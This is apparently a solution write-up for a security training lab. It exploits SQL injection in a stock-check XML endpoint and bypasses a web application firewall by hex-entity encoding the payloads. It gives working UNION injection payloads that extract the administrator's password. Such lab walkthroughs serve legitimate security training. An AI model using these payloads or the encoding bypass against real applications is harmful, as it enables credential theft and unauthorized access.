



# SQL injection with filter bypass via XML encoding
# Objective
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.\
\
The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
# Solution
Website which checks product availability accepts POST requests from users in XML format.
||
|:--:| 
| *POST request with XML data* |

## Bypass firewall
Payload: `3 order by 1--` in storeId field causes firewall to intercept the request.
||
|:--:| 
| *POST request with XML data* |

In order to bypass firewall it is crucial to use encoding. With help from `Hackvertor` payload can be easily encoded in different formats - below hex_entities encoding was used.\
Payload: `<@hex_entities> 3 union select null <@/hex_entities>` -> Application is vulnerable to SQL UNION injection
||
|:--:| 
| *POST request with XML data* |

## Retrieving administrator's password
```
<@hex_entities>3 union select password from users where username='administrator' <@/hex_entities>
```
||
|:--:| 
| *Successful password retrieval* |